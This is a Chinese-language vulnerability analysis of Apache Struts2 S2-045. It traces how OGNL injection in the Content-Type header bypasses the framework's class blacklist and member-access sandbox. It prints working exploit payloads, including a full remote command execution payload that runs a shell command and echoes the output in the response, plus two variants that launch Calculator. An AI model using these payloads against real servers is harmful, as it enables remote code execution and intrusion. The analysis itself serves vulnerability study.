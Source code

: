 # S2-045分析

在这个当中又将struts当中ognl的执行提升到一个新难度，但是前辈们还是很厉害也是成功进行了绕过，首先要知道有些什么变动

首先_memberAccess没了，因此我们不能再使用 `#_memberAccess` 来访问 ValueStack 中的 SecurityMemberAccess 对象

```java
public Object get(Object key) {
  Object result;
  if (RESERVED_KEYS.containsKey(key)) {
    if (key.equals("this")) {
      result = this.getCurrentObject();
    } else if (key.equals("root")) {
      result = this.getRoot();
    } else if (key.equals("context")) {
      result = this;
    } else if (key.equals("_traceEvaluations")) {
      result = this.getTraceEvaluations() ? Boolean.TRUE : Boolean.FALSE;
    } else if (key.equals("_lastEvaluation")) {
      result = this.getLastEvaluation();
    } else if (key.equals("_keepLastEvaluation")) {
      result = this.getKeepLastEvaluation() ? Boolean.TRUE : Boolean.FALSE;
    } else if (key.equals("_classResolver")) {
      result = this.getClassResolver();
    } else {
      if (!key.equals("_typeConverter")) {
        throw new IllegalArgumentException("unknown reserved key '" + key + "'");
      }

      result = this.getTypeConverter();
    }
  } else {
    result = this._values.get(key);
  }

  return result;
}
```

同时在struts-default.xml当中黑名单又添加了 ognl.MemberAccess 和 ognl.DefaultMemberAccess 类

```java
<constant name="struts.excludedClasses"
              value="
                java.lang.Object,
                java.lang.Runtime,
                java.lang.System,
                java.lang.Class,
                java.lang.ClassLoader,
                java.lang.Shutdown,
                java.lang.ProcessBuilder,
                ognl.OgnlContext,
                ognl.ClassResolver,
                ognl.TypeConverter,
                ognl.MemberAccess,
                ognl.DefaultMemberAccess,
                com.opensymphony.xwork2.ognl.SecurityMemberAccess,
                com.opensymphony.xwork2.ActionContext" />

    <!-- this must be valid regex, each '.' in package name must be escaped! -->
    <!-- it's more flexible but slower than simple string comparison -->
    <!-- constant name="struts.excludedPackageNamePatterns" value="^java\.lang\..*,^ognl.*,^(?!javax\.servlet\..+)(javax\..+)" / -->

    <!-- this is simpler version of the above used with string comparison -->
    <constant name="struts.excludedPackageNames" value="java.lang.,ognl,javax,freemarker.core,freemarker.template" />
```

因此之前的S2-032的payload也因此不能用了

拿到网上的payload我们进行分析

```http
Content-Type: %{(#yyds='multipart/form-data').(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -na Calculator'))}
```

第一个是因为要求需要包含 "multipart/form-data"，但不以" multipart/" 开头，进入后面container部分

在创建根对象时调用com.opensymphony.xwork2.ognl.OgnlValueStackFactory#createValueStack

```java
public ValueStack createValueStack() {
  ValueStack stack = new OgnlValueStack(this.xworkConverter, this.compoundRootAccessor, this.textProvider, this.allowStaticMethodAccess);
  this.container.inject(stack);
  stack.getContext().put("com.opensymphony.xwork2.ActionContext.container", this.container);
  return stack;
}
```

在创建这个根对象的时候，会调用 setRoot 方法初始化它的各种属性

```java
protected void setRoot(XWorkConverter xworkConverter, CompoundRootAccessor accessor, CompoundRoot compoundRoot, boolean allowStaticMethodAccess) {
  this.root = compoundRoot;
  this.securityMemberAccess = new SecurityMemberAccess(allowStaticMethodAccess);
  this.context = Ognl.createDefaultContext(this.root, accessor, new OgnlTypeConverterWrapper(xworkConverter), this.securityMemberAccess);
  this.context.put("com.opensymphony.xwork2.util.ValueStack.ValueStack", this);
  Ognl.setClassResolver(this.context, accessor);
  ((OgnlContext)this.context).setTraceEvaluations(false);
  ((OgnlContext)this.context).setKeepLastEvaluation(false);
}
```

而这个securityMemberAccess也通过Ognl.createDefaultContext设置到了OgnlContext，因此我们要想更改 OgnlValueStack.securityMemberAccess，其实就可以直接修改OgnlContext._memberAccess即可

```java
public static Map addDefaultContext(Object root, ClassResolver classResolver, TypeConverter converter, MemberAccess memberAccess, Map context) {
  OgnlContext result;
  if (!(context instanceof OgnlContext)) {
    result = new OgnlContext();
    result.setValues(context);
  } else {
    result = (OgnlContext)context;
  }

  if (classResolver != null) {
    result.setClassResolver(classResolver);
  }

  if (converter != null) {
    result.setTypeConverter(converter);
  }

  if (memberAccess != null) {
    result.setMemberAccess(memberAccess);
  }

  result.setRoot(root);
  return result;
}

public void setMemberAccess(MemberAccess value) {
  if (value == null) {
    throw new IllegalArgumentException("cannot set MemberAccess to null");
  } else {
    this._memberAccess = value;
  }
}
```

之后通过container 进行对象的注入，并将 container 放入 context 中，在这个过程当中也将黑名单通过com.opensymphony.xwork2.ognl.OgnlValueStack#setOgnlUtil加载进去，而且`OgnlContext`中，同时可以看到`this.ognlUtil = ognlUtil`为对象的引用，因此全局也都共享一个实例

```java
@Inject
public void setOgnlUtil(OgnlUtil ognlUtil) {
  this.ognlUtil = ognlUtil;
  this.securityMemberAccess.setExcludedClasses(ognlUtil.getExcludedClasses());
  this.securityMemberAccess.setExcludedPackageNamePatterns(ognlUtil.getExcludedPackageNamePatterns());
  this.securityMemberAccess.setExcludedPackageNames(ognlUtil.getExcludedPackageNames());
}
```

因此payload的获取也很明确了

获得 Container 对象后，使用 `getInstance()` 方法获取之前注入的OgnlUtil对象，而通过这个OgnlUtil工具类我们就可以清除SecurityMemberAccess当中的一些限制性属性，从而实现绕过限制执行命令

有回显

```http
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

当然也不一定非要用clear方法，毕竟这些属性都有set方法

```java
%{(#yyds='multipart/form-data').(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses='').(#ognlUtil.excludedPackageNames='').(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -na Calculator'))}
```
